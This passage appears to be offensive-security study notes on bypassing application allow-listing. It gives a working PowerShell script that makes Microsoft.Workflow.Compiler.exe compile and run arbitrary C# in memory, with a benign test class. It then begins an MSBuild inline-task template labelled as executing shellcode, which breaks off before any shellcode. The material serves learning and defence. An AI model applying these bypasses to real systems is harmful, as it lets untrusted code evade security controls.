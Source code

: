 ##### 8.4.2

- Use Microsoft.Workflow.Compiler.exe to generate an xml file that will compile and run code in a file (here we name test.txt)
- M.W.C.exe takes two arguments
	- First is path to an xml file with compiler flags
	- Path to file containing C# code
- allow compile and load into memory without restrictions
- C# code must contain a class that inherits from the System.Workflow.ComponentModel namespace (eg `public class Run : Activty`)
```powershell
$workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
$workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
$SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$compilerparam.GenerateInMemory = $True
$pathvar = "test.txt"
$output = "C:\Tools\run.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
Move-Item $tmp $output
$Acl = Get-ACL $output;$AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule(“student”,”FullControl”,”none”,”none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $output $Acl
```
- contents of test.txt
```csharp
using System;
using System.Workflow.ComponentModel;
public class Run : Activity{
    public Run() {
        Console.WriteLine("I executed!");
    }
}
```

```powershell
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```

#### Using MSBuild.exe
- References: https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
	  <Target Name="Hello">
	    <ClassExample />
	  </Target>
	  <UsingTask
	    TaskName="ClassExample"
	    TaskFactory="CodeTaskFactory"
	    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	    <Task>
	    
	      <Code Type="Class" Language="cs">
	      <![CDATA[
		using System;
		using System.Runtime.InteropServices;
```